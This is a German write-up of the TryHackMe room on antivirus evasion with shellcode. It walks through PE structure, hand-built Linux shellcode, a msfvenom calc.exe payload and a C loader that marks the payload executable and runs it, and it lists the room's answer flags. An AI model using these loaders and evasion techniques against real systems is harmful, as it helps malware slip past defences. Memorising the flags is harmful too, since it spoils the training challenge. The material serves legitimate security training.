# AV Umgehen: Shellcode
Dies ist eine einführung zu dem TryHackMe Raum: [AV Umgehen: Shellcode](https://tryhackme.com/r/room/avevasionshellcode)

# Task 1 - Einführung
In diesem Kurs werden wir untersuchen, wie man Payloads erstellt und bereitstellt, wobei der Schwerpunkt darauf liegt, die Erkennung durch gängige Antiviren-Engines zu vermeiden. Wir werden verschiedene Techniken betrachten, die uns als Angreifer zur Verfügung stehen, und die Vor- und Nachteile jeder einzelnen diskutieren.

Ziele

- Erlernen, wie Shellcodes erstellt werden.
- Untersuchung der Vor- und Nachteile von gestuften Payloads.
- Erstellung von unauffälligen Shellcodes zur Vermeidung von AV-Erkennung.

Voraussetzungen

Es wird empfohlen, einige Vorkenntnisse darüber zu haben, wie Antivirensoftware funktioniert, sowie ein grundlegendes Verständnis von Verschlüsselung und Codierung zu besitzen. Obwohl es nicht zwingend erforderlich ist, können Kenntnisse in grundlegender Assemblersprache ebenfalls hilfreich sein. Außerdem empfehlen wir ein grundlegendes Verständnis im Lesen und Verstehen von Funktionen (C, C#).

# Task 2 - Herausforderung
In dieser Herausforderung haben wir eine Windows-Maschine mit einer Webanwendung vorbereitet, über die Sie Ihre Payloads hochladen können. Nach dem Hochladen werden die Payloads von einer Antivirensoftware überprüft und ausgeführt, wenn sie als frei von Malware erkannt werden. Das Hauptziel dieser Herausforderung ist es, die Antivirensoftware auf der VM zu umgehen und die Flagge im Dateisystem zu erfassen. Nutzen Sie gerne alle Techniken, die im Raum diskutiert wurden, indem Sie diese unter http://COSTUM-IP/ hochladen.

Wichtige Punkte:

- Versuchen Sie, die diskutierten Techniken zu kombinieren.
- Die Website unterstützt nur EXE-Dateien.
- Sobald die Antivirensoftware die hochgeladene Datei gescannt und keine schädlichen Codes gefunden hat, wird die Datei ausgeführt. Wenn also alles richtig zusammengefügt ist, sollten Sie eine Reverse-Shell erhalten.



Sie können die Fragen für diese Aufgabe vorerst ignorieren, aber stellen Sie sicher, dass Sie auf sie zurückkommen, sobald Sie die Antivirensoftware erfolgreich umgangen und eine Shell erhalten haben.

Bereiten Sie die angehängte virtuelle Maschine (VM) vor, um mit dem Inhalt des Raums fortzufahren, bevor Sie zur nächsten Sektion übergehen! Die VM wird in Ihrem Browser bereitgestellt und sollte automatisch im geteilten Bildschirm erscheinen. Falls die VM nicht sichtbar ist, verwenden Sie die blaue Schaltfläche "Split View anzeigen" oben rechts auf der Seite. Wenn Sie bevorzugen, über RDP eine Verbindung herzustellen, können Sie dies mit den folgenden Anmeldedaten tun:  


Du wirst auch die AttackBox für einige Aufgaben benötigen, daher ist dies ein guter Zeitpunkt, um damit anzufangen.

## Fragen:
Welche Antivirensoftware läuft auf der virtuellen Maschine?
```
Windows Defender
```

Wie lautet der Name des Benutzerkontos, auf das du Zugriff hast?
```
av-victim
```

Erstelle eine funktionierende Shell auf der Opfermaschine und lies die Datei auf dem Desktop des Benutzers. Was ist die Flagge?
```
THM{H3ll0-W1nD0ws-Def3nd3r!}
```

# Task 3 - PE Struktur
Diese Aufgabe hebt einige der wichtigen Elemente der PE-Datenstruktur für Windows-Binärdateien hervor.

### Was ist PE?

Das Portable Executable (PE) ist das Dateiformat für ausführbare Dateien unter Windows, das eine Datenstruktur darstellt, welche die für Dateien notwendigen Informationen enthält. Es dient dazu, den ausführbaren Dateicode auf einer Festplatte zu organisieren. Betriebssystemkomponenten wie Windows- und DOS-Lader können diese Dateien in den Speicher laden und auf Basis der analysierten Dateiinformationen aus dem PE ausführen.

Im Allgemeinen haben Windows-Binärdateien wie EXE, DLL und Objektcode dieselbe PE-Struktur und funktionieren im Windows-Betriebssystem für die CPU-Architekturen (x86 und x64).

Die PE-Struktur umfasst verschiedene Abschnitte, die Informationen über die Binärdatei enthalten, wie Metadaten und Verweise auf Speicheradressen externer Bibliotheken. Einer dieser Abschnitte ist der PE-Header, der Metadateninformationen, Zeiger und Verknüpfungen zu Abschnitten im Speicher enthält. Ein anderer Abschnitt ist der Datenabschnitt, der Container enthält, die die für den Windows-Lader erforderlichen Informationen zum Ausführen eines Programms enthalten, wie ausführbarer Code, Ressourcen, Verknüpfungen zu Bibliotheken, Datenvariablen usw.  
.png)

Es gibt verschiedene Arten von Datencontainern in der PE-Struktur, die jeweils unterschiedliche Daten halten:

1. `.text` speichert den tatsächlichen Programmcode.
2. `.data` enthält initialisierte und definierte Variablen.
3. `.bss` enthält nicht initialisierte Daten (deklarierte Variablen ohne zugewiesene Werte).
4. `.rdata` enthält schreibgeschützte Daten.
5. `.edata` enthält exportierbare Objekte und zugehörige Tabelleninformationen.
6. `.idata` enthält importierte Objekte und zugehörige Tabelleninformationen.
7. `.reloc` enthält Informationen zur Bild-Adressumsetzung.
8. `.rsrc` verknüpft externe Ressourcen, die vom Programm verwendet werden, wie Bilder, Icons, eingebettete Binärdateien und eine Manifestdatei, die alle Informationen zu Programmversionen, Autoren, Unternehmen und Urheberrecht enthält.

Die PE-Struktur ist ein umfangreiches und komplexes Thema, und wir werden hier nicht zu detailliert auf die Header und Datenabschnitte eingehen. Diese Aufgabe bietet einen Überblick über die PE-Struktur auf hoher Ebene. Wenn du mehr Informationen zu diesem Thema erhalten möchtest, empfehlen wir, die folgenden THM-Räume zu überprüfen, wo das Thema detaillierter erklärt wird:

- [Windows Internals](https://tryhackme.com/r/room/windowsinternals)
- Analyse von PE-Headern

Du kannst auch weitere detaillierte Informationen über PE auf der [Website der Windows PE-Format-Dokumentation](https://docs.microsoft.com/en-us/windows/win32/debug/pe-format) erhalten.

Wenn wir uns den Inhalt der PE ansehen, sehen wir, dass er eine Reihe von Bytes enthält, die für Menschen nicht lesbar sind. Dennoch enthält er alle Details, die der Loader benötigt, um die Datei auszuführen. Im Folgenden sind die Beispiel-Schritte aufgeführt, mit denen der Windows-Loader eine ausführbare Binärdatei liest und als Prozess ausführt:

1. **Header-Abschnitte:** DOS-, Windows- und optionale Header werden analysiert, um Informationen über die EXE-Datei bereitzustellen. Zum Beispiel:
   - Die magische Zahl beginnt mit "MZ", was dem Loader signalisiert, dass es sich um eine EXE-Datei handelt.
   - Dateisignaturen
   - Ob die Datei für die x86- oder x64-CPU-Architektur kompiliert ist.
   - Erstellungszeitstempel.

2. **Analyse der Abschnittstabelle-Details:** Anzahl der Abschnitte, die die Datei enthält.

3. **Zuordnung der Dateiinhalte in den Speicher basierend auf:**
   - Der Einstiegspunkt-Adresse und dem Offset der Bildbasis.
   - RVA: Relative Virtual Address, Adressen bezogen auf Imagebase.

4. **Imports, DLLs und andere Objekte werden in den Speicher geladen.**

5. **Die Einstiegspunkt-Adresse wird lokalisiert und die Hauptausführungsfunktion wird ausgeführt.**

### Warum müssen wir über PE Bescheid wissen?

Es gibt ein paar Gründe, warum wir es lernen müssen. Erstens erfordert die Technik des Packens und Entpackens detaillierte Kenntnisse über die PE-Struktur.

Der andere Grund ist, dass AV-Software und Malware-Analysten EXE-Dateien auf der Grundlage der Informationen im PE-Header und anderen PE-Abschnitten analysieren. Daher müssen wir die Struktur der Windows-Portable-Executable-Dateien verstehen, um Malware mit AV-Evasion-Fähigkeiten zu erstellen oder zu modifizieren, die auf eine Windows-Maschine abzielt, und wissen, wo der bösartige Shellcode gespeichert werden kann.

Wir können kontrollieren, in welchem Datenabschnitt wir unseren Shellcode speichern, indem wir definieren, wie wir die Shellcode-Variable definieren und initialisieren. Hier sind einige Beispiele, die zeigen, wie wir den Shellcode in PE speichern können:

- Die Definition des Shellcodes als lokale Variable innerhalb der Hauptfunktion speichert ihn im `.text` PE-Abschnitt.
- Die Definition des Shellcodes als globale Variable speichert ihn im `.data`-Abschnitt.
- Eine weitere Technik besteht darin, den Shellcode als Rohbinärdatei in einem Iconbild zu speichern und es im Code zu verlinken, sodass er im `.rsrc`-Datenabschnitt angezeigt wird.
- Wir können einen benutzerdefinierten Datenabschnitt hinzufügen, um den Shellcode zu speichern.

### PE-Bear

Die angehängte VM ist eine Windows-Entwicklungsmaschine, die die Tools zum Analysieren von EXE-Dateien enthält und die besprochenen Details lesen kann. Zur einfachen Nutzung haben wir eine Kopie der PE-Bear-Software auf dem Desktop bereitgestellt, die die PE-Struktur überprüft: Header, Abschnitte usw. PE-Bear bietet eine grafische Benutzeroberfläche, um alle relevanten EXE-Details anzuzeigen. Um eine EXE-Datei zur Analyse zu laden, wähle `Datei -> PE laden (Strg + O)`.


Sobald eine Datei geladen ist, können wir alle PE-Details sehen. Der folgende Screenshot zeigt die PE-Details der geladenen Datei, einschließlich der Header und Abschnitte, die wir zuvor in dieser Aufgabe besprochen haben.


Jetzt ist es an der Zeit, es auszuprobieren! Lade die Datei **thm-intro2PE.exe**, um die unten stehenden Fragen zu beantworten. Die Datei befindet sich unter folgendem Pfad: `c:\Tools\PE files\thm-intro2PE.exe`.

## Fragen:
Was sind die letzten 6 Stellen des MD5-Hashwerts der Datei **thm-intro2PE.exe**?
```
530949
```

Was ist der Wert der Magic Number der Datei **thm-intro2PE.exe** (in Hexadezimal)?
```
5A4D
```

Was ist der Einstiegspunkt-Wert der Datei **thm-intro2PE.exe**?
```
12E4
```

Wie viele Sectionen hat die Datei **thm-intro2PE.exe**?
```
7
```

Eine benutzerdefinierte Sektion könnte verwendet werden, um zusätzliche Daten zu speichern. Malware-Entwickler nutzen diese Technik, um einen neuen Abschnitt zu erstellen, der ihren bösartigen Code enthält und den Programmfluss umleitet, um den Inhalt des neuen Abschnitts auszuführen. Wie lautet der Name dieser zusätzlichen Sektion?
```
.flag
```

Überprüfe den Inhalt der zusätzlichen Sektion. Was ist die Flagge?
```
THM{PE-N3w-s3ction!}
```

# Task 4 - Einführung in Shellcode
Shellcode ist eine Reihe von präzise erstellten Maschinencode-Anweisungen, die dem verwundbaren Programm sagen, zusätzliche Funktionen auszuführen und in den meisten Fällen Zugang zu einer Systemshell zu ermöglichen oder eine reverse Befehlsshell zu erstellen.

Sobald das Shellcode in einen Prozess injiziert und von der verwundbaren Software oder dem Programm ausgeführt wird, ändert es den Ablauf des Programms, um Register und Funktionen zu aktualisieren und den Code des Angreifers auszuführen.

Shellcode wird in der Regel in Assemblersprache geschrieben und in hexadezimale Operationcodes (Opcode) übersetzt. Das Schreiben von einzigartigem und individuellem Shellcode trägt wesentlich zur Umgehung von AV-Software bei. Das Schreiben eines individuellen Shellcodes erfordert jedoch ausgezeichnete Kenntnisse und Fähigkeiten im Umgang mit Assemblersprache, was keine einfache Aufgabe ist!

### Ein einfacher Shellcode!

Um deinen eigenen Shellcode zu erstellen, sind bestimmte Fähigkeiten erforderlich:

- Ein solides Verständnis der x86- und x64-CPU-Architekturen.
- Assemblersprache.
- Gute Kenntnisse in Programmiersprachen wie C.
- Vertrautheit mit den Betriebssystemen Linux und Windows.

Um unseren eigenen Shellcode zu generieren, müssen wir Bytes aus dem Assembler-Maschinencode schreiben und extrahieren. Für diese Aufgabe verwenden wir die AttackBox, um einen einfachen Shellcode für Linux zu erstellen, der den String "THM, Rocks!" ausgibt. Der folgende Assemblercode verwendet zwei Hauptfunktionen:

- Die System Write-Funktion (sys_write), um einen von uns gewählten String auszugeben.
- Die System Exit-Funktion (sys_exit), um die Ausführung des Programms zu beenden.

Um diese Funktionen aufzurufen, verwenden wir **Syscalls**. Ein Syscall ist die Methode, mit der ein Programm den Kernel darum bittet, etwas zu tun. In diesem Fall fordern wir den Kernel auf, einen String auf unserem Bildschirm auszugeben und dann das Programm zu beenden. Jedes Betriebssystem hat eine andere Aufrufkonvention bezüglich Syscalls. Das bedeutet, dass für die Verwendung von `write` unter Linux ein anderer Syscall verwendet wird als unter Windows.
Hier sind die übersetzten Informationen:

| rax | Systemaufruf | rdi               | rsi                  | rdx               |
|-----|--------------|-------------------|----------------------|-------------------|
| 0x1 | sys_write    | unsigned int fd   | const char *buf       | size_t count      |
| 0x3c| sys_exit     | int error_code    | -                    | -                 |

Die Tabelle oben zeigt uns, welche Werte wir in verschiedenen Prozessorregistern setzen müssen, um die Funktionen sys_write und sys_exit mit Syscalls aufzurufen. Für 64-Bit Linux wird das Register rax verwendet, um die Funktion im Kernel anzugeben, die wir aufrufen möchten. Durch Setzen von rax auf 0x1 wird der Kernel sys_write ausführen, und durch Setzen von rax auf 0x3c wird der Kernel sys_exit ausführen. Jede der beiden Funktionen erfordert einige Parameter, die über die Register rdi, rsi und rdx gesetzt werden können. Eine vollständige Referenz der verfügbaren 64-Bit Linux Syscalls findest du hier.

Für `sys_write` ist der erste Parameter, der durch `rdi` gesendet wird, die Dateideskriptor zum Schreiben. Der zweite Parameter in `rsi` ist ein Zeiger auf den String, den wir ausgeben möchten, und der dritte in `rdx` ist die Größe des auszugebenden Strings.

Für `sys_exit` muss rdi auf den Exit-Code für das Programm gesetzt werden. Wir werden den Code 0 verwenden, was bedeutet, dass das Programm erfolgreich beendet wurde.

Kopiere den folgenden Code in deine AttackBox in eine Datei namens `thm.asm`:
```
global _start

section .text
_start:
    jmp MESSAGE      ; 1) let's jump to MESSAGE

GOBACK:
    mov rax, 0x1
    mov rdi, 0x1
    pop rsi          ; 3) we are popping into `rsi`; now we have the
                     ; address of "THM, Rocks!\r\n"
    mov rdx, 0xd
    syscall

    mov rax, 0x3c
    mov rdi, 0x0
    syscall

MESSAGE:
    call GOBACK       ; 2) we are going back, since we used `call`, that means
                      ; the return address, which is, in this case, the address
                      ; of "THM, Rocks!\r\n", is pushed into the stack.
    db "THM, Rocks!", 0dh, 0ah
```

Lassen Sie uns den ASM-Code etwas genauer erklären. Zuerst wird unser Nachrichtenstring am Ende des .text-Abschnitts gespeichert. Da wir einen Zeiger auf diese Nachricht benötigen, um sie auszugeben, springen wir zur Call-Anweisung vor der Nachricht selbst. Wenn die Anweisung `call GOBACK` ausgeführt wird, wird die Adresse der nächsten Anweisung nach dem call auf den Stack geschoben, was der Stelle entspricht, an der unsere Nachricht steht. Beachte, dass die Zeichenfolge 0dh, 0ah am Ende der Nachricht dem binären Äquivalent eines Zeilenumbruchs (\r\n) entspricht.

Als nächstes beginnt das Programm mit der GOBACK-Routine und bereitet die erforderlichen Register für unsere erste sys_write()-Funktion vor.

- Wir geben die sys_write-Funktion an, indem wir 1 im rax-Register speichern.
- Wir setzen rdi auf 1, um die Zeichenfolge auf der Konsole des Benutzers (STDOUT) auszugeben.
- Wir holen einen Zeiger auf unsere Zeichenfolge, der beim Aufruf von GOBACK gepusht wurde, und speichern ihn in rsi.
- Mit der syscall-Anweisung führen wir die sys_write-Funktion mit den vorbereiteten Werten aus.
- Für den nächsten Teil machen wir dasselbe, um die sys_exit-Funktion aufzurufen, indem wir also 0x3c in das rax-Register setzen und die syscall-Funktion aufrufen, um das Programm zu beenden.

Als nächstes kompilieren und verknüpfen wir den ASM-Code, um eine ausführbare Datei für x64 Linux zu erstellen, und führen schließlich das Programm aus.
```shell 
user@AttackBox$ nasm -f elf64 thm.asm
user@AttackBox$ ld thm.o -o thm
user@AttackBox$ ./thm
THM,Rocks!        
```

Wir haben den Befehl `nasm` verwendet, um die ASM-Datei zu kompilieren, wobei wir die Option `-f elf64` angegeben haben, um anzugeben, dass wir für 64-Bit Linux kompilieren. Beachte, dass wir als Ergebnis eine .o-Datei erhalten, die den Objektcode enthält und die verknüpft werden muss, um eine funktionierende ausführbare Datei zu erhalten. Der Befehl `ld` wird verwendet, um das Objekt zu verknüpfen und die endgültige ausführbare Datei zu erhalten. Die Option `-o` wird verwendet, um den Namen der Ausgabedatei festzulegen.

Nun, da wir das kompilierte ASM-Programm haben, extrahieren wir das Shellcode mit dem Befehl `objdump`, indem wir den .text-Abschnitt der kompilierten Binärdatei dumpen.
```shell
user@AttackBox$ objdump -d thm

thm:     file format elf64-x86-64


Disassembly of section .text:

0000000000400080 <_start>:
  400080:	eb 1e                	jmp    4000a0 

0000000000400082 :
  400082:	b8 01 00 00 00       	mov    $0x1,%eax
  400087:	bf 01 00 00 00       	mov    $0x1,%edi
  40008c:	5e                   	pop    %rsi
  40008d:	ba 0d 00 00 00       	mov    $0xd,%edx
  400092:	0f 05                	syscall 
  400094:	b8 3c 00 00 00       	mov    $0x3c,%eax
  400099:	bf 00 00 00 00       	mov    $0x0,%edi
  40009e:	0f 05                	syscall 

00000000004000a0 :
  4000a0:	e8 dd ff ff ff       	callq  400082 
  4000a5:	54                   	push   %rsp
  4000a6:	48                   	rex.W
  4000a7:	4d 2c 20             	rex.WRB sub $0x20,%al
  4000aa:	52                   	push   %rdx
  4000ab:	6f                   	outsl  %ds:(%rsi),(%dx)
  4000ac:	63 6b 73             	movslq 0x73(%rbx),%ebp
  4000af:	21                   	.byte 0x21
  4000b0:	0d                   	.byte 0xd
  4000b1:	0a                   	.byte 0xa
```

Jetzt müssen wir den Hexadezimalwert aus der obigen Ausgabe extrahieren. Dazu können wir `objcopy` verwenden, um den .text-Abschnitt in eine neue Datei namens `thm.text` im Binärformat zu dumpen.
```shell
user@AttackBox$ objcopy -j .text -O binary thm thm.text
```

Die Datei thm.text enthält unseren Shellcode im Binärformat. Um ihn verwenden zu können, müssen wir ihn zuerst in Hexadezimalformat konvertieren. Der Befehl `xxd` hat die Option `-i`, die die binäre Datei direkt als C-String ausgibt.
```shell
user@AttackBox$ xxd -i thm.text
unsigned char new_text[] = {
  0xeb, 0x1e, 0xb8, 0x01, 0x00, 0x00, 0x00, 0xbf, 0x01, 0x00, 0x00, 0x00,
  0x5e, 0xba, 0x0d, 0x00, 0x00, 0x00, 0x0f, 0x05, 0xb8, 0x3c, 0x00, 0x00,
  0x00, 0xbf, 0x00, 0x00, 0x00, 0x00, 0x0f, 0x05, 0xe8, 0xdd, 0xff, 0xff,
  0xff, 0x54, 0x48, 0x4d, 0x2c, 0x20, 0x52, 0x6f, 0x63, 0x6b, 0x73, 0x21,
  0x0d, 0x0a
};
unsigned int new_text_len = 50;
```

Endlich haben wir es: einen formatierten Shellcode aus unserer ASM-Assembly. Das hat Spaß gemacht! Wie wir sehen, erfordert es Hingabe und Fähigkeiten, um Shellcode für deine Arbeit zu erstellen!

Um zu bestätigen, dass der extrahierte Shellcode wie erwartet funktioniert, können wir unseren Shellcode ausführen und ihn in ein C-Programm injizieren.
```C
#include <stdio.h>

int main(int argc, char **argv) {
    unsigned char message[] = {
        0xeb, 0x1e, 0xb8, 0x01, 0x00, 0x00, 0x00, 0xbf, 0x01, 0x00, 0x00, 0x00,
        0x5e, 0xba, 0x0d, 0x00, 0x00, 0x00, 0x0f, 0x05, 0xb8, 0x3c, 0x00, 0x00,
        0x00, 0xbf, 0x00, 0x00, 0x00, 0x00, 0x0f, 0x05, 0xe8, 0xdd, 0xff, 0xff,
        0xff, 0x54, 0x48, 0x4d, 0x2c, 0x20, 0x52, 0x6f, 0x63, 0x6b, 0x73, 0x21,
        0x0d, 0x0a
    };
    
    (*(void(*)())message)();
    return 0;
}
```

Dann kompilieren wir es und führen es wie folgt aus,
```shell 
user@AttackBox$ gcc -g -Wall -z execstack thm.c -o thmx
user@AttackBox$ ./thmx
THM,Rocks!
```

Schön! Es funktioniert. Beachten Sie, dass wir das C-Programm kompilieren, indem wir den NX-Schutz deaktivieren, der uns möglicherweise daran hindert, den Code korrekt im Datensegment oder im Stack auszuführen.

Das Verständnis von Shellcodes und wie sie erstellt werden, ist besonders wichtig für die folgenden Aufgaben, insbesondere wenn es um die Verschlüsselung und Codierung des Shellcodes geht.

## Fragen:
Ändern Sie Ihr C-Programm, um den folgenden Shellcode auszuführen. Wie lautet das Flag?
```C
unsigned char message[] = {
  0xeb, 0x34, 0xb9, 0x00, 0x00, 0x00, 0x00, 0x5e, 0x48, 0x89, 0xf0, 0x80,
  0x34, 0x08, 0x01, 0x48, 0x83, 0xc1, 0x01, 0x48, 0x83, 0xf9, 0x19, 0x75,
  0xf2, 0xb8, 0x01, 0x00, 0x00, 0x00, 0xbf, 0x01, 0x00, 0x00, 0x00, 0xba,
  0x19, 0x00, 0x00, 0x00, 0x0f, 0x05, 0xb8, 0x3c, 0x00, 0x00, 0x00, 0xbf,
  0x00, 0x00, 0x00, 0x00, 0x0f, 0x05, 0xe8, 0xc7, 0xff, 0xff, 0xff, 0x55,
  0x49, 0x4c, 0x7a, 0x78, 0x31, 0x74, 0x73, 0x2c, 0x30, 0x72, 0x36, 0x2c,
  0x34, 0x69, 0x32, 0x30, 0x30, 0x62, 0x31, 0x65, 0x32, 0x7c, 0x0d, 0x0a
};
```
```
THM{y0ur-1s7-5h311c0d3}
```

# Task 5 - Erstelle Shellcode
In dieser Aufgabe setzen wir unsere Arbeit mit Shellcode fort und zeigen, wie man Shellcode mithilfe öffentlicher Tools wie dem Metasploit-Framework generiert und ausführt.

### Generieren von Shellcode mit öffentlichen Tools

Shellcode kann für ein bestimmtes Format mit einer bestimmten Programmiersprache generiert werden. Das hängt von Ihnen ab. Wenn beispielsweise Ihr Dropper, also die Haupt-EXE-Datei, den Shellcode enthält, der an ein Opfer gesendet wird und in C geschrieben ist, müssen wir einen Shellcode-Format generieren, der in C funktioniert.

Der Vorteil der Generierung von Shellcode über öffentliche Tools besteht darin, dass wir keinen individuellen Shellcode von Grund auf erstellen müssen und auch kein Experte in Assemblersprache sein müssen. Die meisten öffentlichen C2-Frameworks bieten ihren eigenen Shellcode-Generator an, der mit der C2-Plattform kompatibel ist. Natürlich ist das für uns sehr praktisch, aber der Nachteil besteht darin, dass die meisten, oder man kann sagen, alle generierten Shellcodes den Antiviren-Anbietern bekannt sind und leicht erkannt werden können.

Wir werden Msfvenom auf der AttackBox verwenden, um einen Shellcode zu generieren, der Windows-Dateien ausführt. Wir werden einen Shellcode erstellen, der die Anwendung `calc.exe` ausführt.
```shell
user@AttackBox$ msfvenom -a x86 --platform windows -p windows/exec cmd=calc.exe -f c
No encoder specified, outputting raw payload
Payload size: 193 bytes
Final size of c file: 835 bytes
unsigned char buf[] =
"\xfc\xe8\x82\x00\x00\x00\x60\x89\xe5\x31\xc0\x64\x8b\x50\x30"
"\x8b\x52\x0c\x8b\x52\x14\x8b\x72\x28\x0f\xb7\x4a\x26\x31\xff"
"\xac\x3c\x61\x7c\x02\x2c\x20\xc1\xcf\x0d\x01\xc7\xe2\xf2\x52"
"\x57\x8b\x52\x10\x8b\x4a\x3c\x8b\x4c\x11\x78\xe3\x48\x01\xd1"
"\x51\x8b\x59\x20\x01\xd3\x8b\x49\x18\xe3\x3a\x49\x8b\x34\x8b"
"\x01\xd6\x31\xff\xac\xc1\xcf\x0d\x01\xc7\x38\xe0\x75\xf6\x03"
"\x7d\xf8\x3b\x7d\x24\x75\xe4\x58\x8b\x58\x24\x01\xd3\x66\x8b"
"\x0c\x4b\x8b\x58\x1c\x01\xd3\x8b\x04\x8b\x01\xd0\x89\x44\x24"
"\x24\x5b\x5b\x61\x59\x5a\x51\xff\xe0\x5f\x5f\x5a\x8b\x12\xeb"
"\x8d\x5d\x6a\x01\x8d\x85\xb2\x00\x00\x00\x50\x68\x31\x8b\x6f"
"\x87\xff\xd5\xbb\xf0\xb5\xa2\x56\x68\xa6\x95\xbd\x9d\xff\xd5"
"\x3c\x06\x7c\x0a\x80\xfb\xe0\x75\x05\xbb\x47\x13\x72\x6f\x6a"
"\x00\x53\xff\xd5\x63\x61\x6c\x63\x2e\x65\x78\x65\x00";
```
Als Ergebnis generiert das Metasploit-Framework einen Shellcode, der den Windows-Rechner (calc.exe) ausführt. Der Windows-Rechner wird häufig als Beispiel im Malware-Entwicklungsprozess verwendet, um einen Proof of Concept zu zeigen. Wenn die Technik funktioniert, öffnet sich eine neue Instanz des Windows-Rechners. Dies bestätigt, dass jeder ausführbare Shellcode mit der verwendeten Methode funktioniert.

### Shellcode-Injektion

Hacker injizieren Shellcode in einen laufenden oder neuen Thread und Prozess mithilfe verschiedener Techniken. Shellcode-Injektionstechniken ändern den Ausführungsfluss des Programms, um Register und Funktionen des Programms zu aktualisieren und den eigenen Code des Angreifers auszuführen.

Lassen Sie uns nun den generierten Shellcode weiterverwenden und ihn im Betriebssystem ausführen. Hier ist ein C-Code mit unserem generierten Shellcode, der in den Speicher injiziert und “calc.exe” ausgeführt wird.

Auf der AttackBox speichern wir das Folgende in einer Datei namens `calc.c`:
```C
#include <windows.h>
char stager[] = {
"\xfc\xe8\x82\x00\x00\x00\x60\x89\xe5\x31\xc0\x64\x8b\x50\x30"
"\x8b\x52\x0c\x8b\x52\x14\x8b\x72\x28\x0f\xb7\x4a\x26\x31\xff"
"\xac\x3c\x61\x7c\x02\x2c\x20\xc1\xcf\x0d\x01\xc7\xe2\xf2\x52"
"\x57\x8b\x52\x10\x8b\x4a\x3c\x8b\x4c\x11\x78\xe3\x48\x01\xd1"
"\x51\x8b\x59\x20\x01\xd3\x8b\x49\x18\xe3\x3a\x49\x8b\x34\x8b"
"\x01\xd6\x31\xff\xac\xc1\xcf\x0d\x01\xc7\x38\xe0\x75\xf6\x03"
"\x7d\xf8\x3b\x7d\x24\x75\xe4\x58\x8b\x58\x24\x01\xd3\x66\x8b"
"\x0c\x4b\x8b\x58\x1c\x01\xd3\x8b\x04\x8b\x01\xd0\x89\x44\x24"
"\x24\x5b\x5b\x61\x59\x5a\x51\xff\xe0\x5f\x5f\x5a\x8b\x12\xeb"
"\x8d\x5d\x6a\x01\x8d\x85\xb2\x00\x00\x00\x50\x68\x31\x8b\x6f"
"\x87\xff\xd5\xbb\xf0\xb5\xa2\x56\x68\xa6\x95\xbd\x9d\xff\xd5"
"\x3c\x06\x7c\x0a\x80\xfb\xe0\x75\x05\xbb\x47\x13\x72\x6f\x6a"
"\x00\x53\xff\xd5\x63\x61\x6c\x63\x2e\x65\x78\x65\x00" };
int main()
{
        DWORD oldProtect;
        VirtualProtect(stager, sizeof(stager), PAGE_EXECUTE_READ, &oldProtect);
        int (*shellcode)() = (int(*)())(void*)stager;
        shellcode();
}
```

Jetzt kompilieren wir sie als Exe-Datei:
```shell
user@AttackBox$ i686-w64-mingw32-gcc calc.c -o calc-MSF.exe
```

